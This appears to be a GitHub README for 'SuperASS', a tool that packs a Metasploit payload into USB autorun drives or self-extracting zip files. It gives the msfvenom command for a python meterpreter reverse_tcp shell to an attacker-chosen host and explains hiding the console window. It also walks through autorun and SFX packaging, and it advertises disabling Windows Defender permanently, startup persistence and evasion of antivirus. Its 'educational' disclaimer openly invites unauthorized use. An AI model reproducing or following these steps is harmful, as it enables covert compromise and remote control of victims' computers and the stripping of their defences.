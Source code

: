 
<h1 align="center">SuperASS v1.0</h1>
<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-green?style=for-the-badge">
  <br>
  <br>
  <img src="https://img.shields.io/badge/Author-AbdulazizDXT-green?style=flat-square">
  <img src="https://img.shields.io/badge/Made%20in-Oman-green?style=flat-square">
  <img src="https://img.shields.io/badge/Powerd%20BY-Python%20&%20Metasploit-green?style=flat-square">
</p>

## [√] Description :

***The best tool to create a USB gadget or a zip file infested with a virus with a quick kill protection with Metasploit!***

## [+] Installation

##### The SuperASS project is set up first in Kali Linux, and then the virus boot is set up in Windows :

* You can set up the project initially in Termux, but the remaining steps in preparing a zip file or creating a boot disk require Windows.

 - For KALI Linux :
    - ```git clone https://github.com/AbdulazizDXT/SuperASS```
    - ```cd SuperASS```
    - ```chmod +x install.sh```
    - ```./install.sh```

#### Or, directly run "Root Users {sudo su}" :
```
git clone https://github.com/AbdulazizDXT/SuperASS ;cd SuperASS ;chmod +x install.sh ;./install.sh

```
## [+] Usage

1. Run the script
2. SuperASS file window will open automatically after installation
3. Open Terminal and Type "msfvenom -p python/meterpreter/reverse_tcp LHOST={YourIPAddres} LPORT={Your Port} -o Update.py
4. ReName file --> "Update.py" to "Update.pyw" For hide python console
5. Copy the Update.pyw file to the Open SuperASS window and click Replace
6. Now the file must be transferred to the Windows system to start creating an exe file for the virus in the USB or zip files

- If you want to test the penetration outside the network, you must open a port for the IP address of your device and also put the IPv4 address and the port that you opened in step 3.  You want to receive the connection be the same port you set. IPv4 Outside Network Here : https://whatismyipaddress.com/
- 
## [+] Use SuperASS In USB AutoRun :

1. Download USB AutoRun Creator From : https://www.samlogic.net/demos/files/USBAC-DEMO-ENG-SETUP.exe
2. Install & Open after Installation 
3. Now the previously modified SuperASS file should be present in your Windows system
4. After you run the autorun program, choose the file MIN (1).exe & Then choose the USB disk & click create
5. Now copy all the contents of the SuperASS file to the USB and then remove it, but beware not to put it again on your device, it may kill the protection completely and make it difficult to restore it, except by upgrading to the new versions of Windows such as the Insider version

- Notice : When you use USB Autorun Creator, all USB contents will be deleted, be careful!

## [+]  Use SuperASS In Zip File AutoRun :

1. Download WinRAR From : https://www.win-rar.com/download.html?&L=0
2. Install & Check [√]
3. Go to the SuperASS file and then right click and click on Add to archive &  Click OK to start pressing... 
4. After compressing the file, open it, then choose the "SFX" option, then "Advanced SFX Option" & Setup Option
5. Type MIN (1).exe & Press OK & OK to Exit
6. Now you can use zip file for hacking / Do not try on your device

## [√] Features:

 - Under 10s to install payload in target device
 - connect Metasploit to hacking
 - Python Quiet install
 - autorun payload in startup windows
 - kill windows defender forever
 - {5 security vendors and no sandboxes flagged this file as malicious} in ViursTotal <57/5>
 - This is the antivirus that detected the virus {Antiy-AVL, GData, Microsoft, ClamAV ,Ikarus}
 - Soon a copy will be released that disables all antivirus programs!

## [+] Something very important!

- This tool is developed for educational purposes. Here he explains how hacking works. If anyone wants to gain unauthorized access to someone's devices, they can try it at their own risk. You have your own responsibilities and you are responsible for any damage or violation of laws by this tool. The author is not responsible for any misuse of SuperASS!
 
## [+] I'm Here!


- [![Github](https://img.shields.io/badge/Github-AbdulazizDXT-green?style=for-the-badge&logo=github)](https://github.com/AbdulazizDXT)

- [![Gmail](https://img.shields.io/badge/Gmail-AbdulazizDXT-green?style=for-the-badge&logo=gmail)](mailto:Abdulazizalhasaniwin@gmail.com)

